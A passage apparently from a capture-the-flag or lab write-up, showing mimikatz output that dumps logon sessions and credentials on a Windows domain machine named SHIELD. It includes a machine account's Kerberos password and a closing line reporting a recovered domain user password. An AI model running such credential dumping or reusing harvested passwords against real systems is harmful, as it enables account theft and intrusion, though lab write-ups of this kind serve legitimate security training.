 ~~~

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/13/2020 9:10:57 AM
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 6/13/2020 9:10:55 AM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : shield$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

mimikatz # 
~~~

And we find the password Password1234! for domain user Sandra.
